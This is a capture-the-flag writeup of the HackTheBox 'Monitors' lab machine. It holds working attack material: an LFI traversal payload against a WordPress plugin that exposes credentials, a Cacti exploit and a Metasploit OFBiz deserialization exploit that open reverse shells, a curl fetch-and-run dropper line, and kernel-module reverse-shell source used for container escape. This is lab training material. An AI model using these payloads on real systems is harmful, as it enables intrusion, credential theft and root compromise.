








# Monitors - HackTheBox - Writeup
Linux, 40 Base Points, Hard

## Machine


 
### TL;DR;

To solve this machine, we begin by enumerating open services – finding only ports ```22``` and ```80```.

***User:*** Finding WordPress plugin using ```wpscan``` with ```LFI``` vulnerability, get credentials from ```wp-config.php``` using LFI, Find another vhost ```cacti-admin.monitors.htb```, with Cacti system, get a reverse shell, Find ```/home/marcus/.backup/backup.sh``` file with user ```marcus``` credentials and get the user flag.

***Root:*** Find ```notes.txt``` in ```/home/marcus``` directory, Find running container with vulnerability (CVE-2020-9496), Use ```sys-module-capability``` to container escape by loading kernel module and get the root flag.

## Monitors Solution


### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Monitors]
└──╼ $ nmap -sC -sV -oA nmap/Monitors 10.10.10.238
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-26 14:44 IDT
Nmap scan report for 10.10.10.238
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.85 second
```

Let's observe port 80 [http://10.10.10.238/](http://10.10.10.238/):


We can see domain and also user name ```admin```, ```monitors.htb```.

Direct acces by IP Is not allowed, So by adding ```monitors.htb``` domain to ```/etc/hosts``` we can browse to [http://monitors.htb](http://monitors.htb):



By running ```gobuster``` we found WordPress page [http://monitors.htb/wp-login.php](http://monitors.htb/wp-login.php):


Let's run [wpscan](https://github.com/wpscanteam/wpscan) (You can get you ```WPSCAN_KEY``` from [https://wpscan.com/profile](https://wpscan.com/profile)):
```console
┌─[evyatar@parrot]─[/hackthebox/Monitors]
└──╼ $ wpscan --api-token $WPSCAN_KEY --url http://monitors.htb/ --plugins-detection mixed -e -t 50
...
+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 | Readme: http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/cdd8b32a-b424-4548-a801-bbacbaad23f8
 |      - https://www.exploit-db.com/exploits/44544/
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

...
```

We got an unauthenticated file inclusion vulnerability in the ```wp spritz plugin```.

Following [https://www.exploit-db.com/exploits/44544](https://www.exploit-db.com/exploits/44544) we can make the following HTTP request to get LFI [http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd](http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd):



By browsing to [http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php](http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php) we can get ```wp-config.php``` file which contains the following credentials:
```php
<?php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
...
```

By trying the following [https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/rfi-lfi/lfi-linux-list.txt](https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/rfi-lfi/lfi-linux-list.txt) list using BurpSuite intruder, we found the following config file:

 

As we can see, At the top of the file we can see:
```
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
```

Let's add the second virtual host to ```/etc/hosts``` and browse to [http://cacti-admin.monitors.htb](http://cacti-admin.monitors.htb):



By using the credentials ```admin:BestAdministrator@2020!``` (password from ```wp-config.php``` file) we get:



By clicking on [About](http://cacti-admin.monitors.htb/cacti/about.php) page:



We found this is Cacti 1.2.12, This version contains few vulnerabilities, Let's use this one [https://www.exploit-db.com/exploits/49810](https://www.exploit-db.com/exploits/49810).

By running the script from the link above we pop a shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Monitors]
└──╼ $ python3 exp.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.14 --lport 1338
[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:ef977117a35b52bc2b3bae3df55128c459b8514c,1627333100
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!

```

```console
┌─[evyatar@parrot]─[/hackthebox/Monitors]
└──╼ $ nc -lvp 1338
listening on [any] 1338 ...
connect to [10.10.14.14] from monitors.htb [10.10.10.238] 42842
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We can see on ```/home``` directory another directory related to ```marcus``` user.

By running the following command ```grep 'marcus' /etc -R 2>/dev/null``` on ```/etc``` we get the follow:
```console
$ grep 'marcus' /etc -R 2>/dev/null
/etc/group-:marcus:x:1000:
/etc/subgid:marcus:165536:65536
/etc/group:marcus:x:1000:
/etc/passwd:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh
/etc/subuid:marcus:165536:65536
/etc/passwd-:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
```

By observing the file ```/home/marcus/.backup/backup.sh``` we can see:
```bash
$ cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

We can use ```VerticalEdge2020``` password to ssh login with user ```marcus```:
```console
┌─[evyatar@parrot]─[/hackthebox/Monitors]
└──╼ $ ssh marcus@monitors.htb
marcus@monitors.htb's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul 26 21:49:36 UTC 2021

  System load:  0.0                Users logged in:                0
  Usage of /:   32.9% of 17.59GB   IP address for ens160:          10.10.10.238
  Memory usage: 38%                IP address for br-968a1c1855aa: 172.18.0.1
  Swap usage:   0%                 IP address for docker0:         172.17.0.1
  Processes:    184

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

99 packages can be updated.
70 of these updates are security updates.
To see these additional updates run: apt list --upgradable


marcus@monitors:~$ cat user.txt
7469bb246567743c7733b7d3a8fe3b1f
```

And we get the user flag ```7469bb246567743c7733b7d3a8fe3b1f```.

### Root

```/home/marcus``` directory contains ```note.txt``` file with the following content:
```
marcus@monitors:~$ cat note.txt 
TODO:

Disable phpinfo	in php.ini		- DONE
Update docker image for production use	- 
```

If we are running ```ps -ef | grep docker``` we get:
```console
marcus@monitors:~$ ps -ef | grep docker
...
root       2046   1574  0 20:18 ?        00:00:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
...
```

The purpose of [docker-proxy](https://windsock.io/the-docker-proxy/) command is to enable a service consumer to communicate with the service providing container, The docker-proxy operates in userland, and simply receives any packets arriving at the host's specified port, and redirects them to the container's port.

So the request to ```127.0.0.1:8443``` leading to the container in the same port.

If we want to access this local port we need to create an SSH tunnel as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Monitors]
└──╼ $ ssh -N -L 8443:127.0.0.1:8443 -R 8443:127.0.0.1:8443 marcus@monitors.htb
marcus@monitors.htb's password:
```

And now, By browsing to [http://localhost:8443](http://localhost:8443) we get:



Nothing is interesting, But let's pay attention to the Apache version which is ```Apache Tomcat/9.0.31```.

The version has an exploit related to deserialization - [CVE-2020-9496](https://nvd.nist.gov/vuln/detail/CVE-2020-9496), [https://www.rapid7.com/db/modules/exploit/linux/http/apache_ofbiz_deserialiation/](https://www.rapid7.com/db/modules/exploit/linux/http/apache_ofbiz_deserialiation//).

Let's exploit metasploit:
```console
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Target cannot deserialize arbitrary data. ForceExploit is enabled, proceeding with exploitation.
[*] Executing Linux Dropper for linux/x86/shell/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/0tofJMLO0SfZf
[*] Local IP: http://10.0.2.15:8080/0tofJMLO0SfZf
[+] Successfully executed command: curl -so /tmp/AJDUKNgC http://10.10.14.14:8080/0tofJMLO0SfZf;chmod +x /tmp/AJDUKNgC;/tmp/AJDUKNgC;rm -f /tmp/AJDUKNgC
[*] Client 10.10.10.238 (curl/7.64.0) requested /0tofJMLO0SfZf
[*] Sending payload to 10.10.10.238 (curl/7.64.0)
[*] Sending stage (36 bytes) to 10.10.10.238
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.238:33386) at 2021-07-29 00:00:33 +0300
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)

```

So we get a root shell to the container, We need to escape from container to host.

Let's use the following article [https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) to do that.

***Step 1***: Check the capabilities provided to the docker container.

First let's run the following command ```capsh --print```:
```console
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

The container has SYS_MODULE capability. As a result, the container can insert/remove kernel modules in/from the kernel of the Docker host machine.

***Step 2***: Write a program to invoke a reverse shell with the help of usermode Helper API

```reverse-shell.c```:

```C
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/4445 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

I changed the IP and the port so that I would listen on the host.

Copy this file to container from your host using ```curl``` to ```/```:
```console
curl http://10.10.14.14:8000/reverse-shell.c > reverse-shell.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   616  100   616    0     0   2961      0 --:--:-- --:--:-- --:--:--  2961
ls
reverse-shell.c

```

***Step 3***: Create a Makefile to compile the kernel module.

Copy ```Makefile``` from your host (using ```curl``` - same as before)

```console
cat Makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

***Step 4***: Make the kernel module by running ```make```

```console
make
make -C /lib/modules/4.15.0-142-generic/build M=/ modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  //reverse-shell.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /reverse-shell.mod.o
  LD [M]  /reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
```

It didn’t work - Add the gcc library to the path, And change ``` Makefile to:
```c
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
	make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean

```

And run:
```console
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/8/
make clean
make
```

It was succeeded and you will see some new files on the directory:
```console
reverse-shell.c
reverse-shell.ko
reverse-shell.mod.c
reverse-shell.mod.o
reverse-shell.o
``` 

***Step 5***: Create netcal listener on ```marcus``` shell.
```console
marcus@monitors:~$ nc -nlvp 4445
Listening on [0.0.0.0] (family 0, port 4445)

```

***Step 6***: Insert the kernel module using ```insmod```.

```console
insmod reverse-shell.ko
```

***Step 7***: Get the root flag.

After ```insmod``` commmand you should see new shell on ```marcus``` shell:
```console
Connection from 10.10.10.238 46054 received!
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@monitors:/# cat /root/root.txt
cat /root/root.txt
4227a2dab1102b16cfa4bf52e6a435b2
root@monitors:/# 
```

And we get the root flag ```4227a2dab1102b16cfa4bf52e6a435b2```.
